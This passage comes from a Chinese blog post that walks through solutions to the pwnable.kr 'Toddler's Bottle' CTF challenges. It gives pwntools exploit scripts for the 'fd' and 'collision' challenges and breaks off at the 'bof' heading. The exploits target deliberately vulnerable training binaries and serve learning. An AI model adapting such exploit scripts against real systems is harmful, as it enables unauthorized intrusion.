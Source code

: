 ```yaml
---
layout: post
title: "Pwnable Kr Toddler's Bottle Write Up"
---
```


# 0x00 背景

和leecode一样，感觉未来PWN选手基础的发展趋势，就是问你有没有刷过[pwnable.kr](http://pwnable.kr)和[pwnable.tw](https://pwnable.tw/)系列哇。算是巩固一下基础吧，把pwnable.kr的`Toddler's Bottle`部分做完了，遂形成此篇记录博客。篇幅所限，原始题目内容和运行环境以及开启的安全机制，大多省略或提及关键部分，着重记录了解题思路和利用脚本。



# 0x01 题解

## fd

这是一个编程问题，让你去了解Linux上的文件描述符，直接引用《UNIX环境高级编程》中“文件描述符”的内容吧：按照惯例，UNIX系统shell把文件描述符0与进程的标准输入关联。exp脚本如下：

```python
from pwn import *

context.log_level = 'debug'

s = ssh(host='pwnable.kr', user='fd', port=2222, password='guest')
p = s.process(['./fd', str(0x1234)])
p.sendline('LETMEWIN')
print p.recvall()
```

## collision

简单的编程问题，要求凑5个`int`数加起来等于hashcode，需要注意的是python在起程序时应该传递不了空指针`NULL`这样的参数。exp脚本如下：

```python
from pwn import *

context.log_level = 'debug'

c = ''
c += p32(0x01010101) * 4
c += p32(0x21DD09EC-0x01010101*4)

s = ssh(host='pwnable.kr', user='col', port=2222, password='guest')
p = s.process(['./col', c])
print p.recvall()
```

## bof
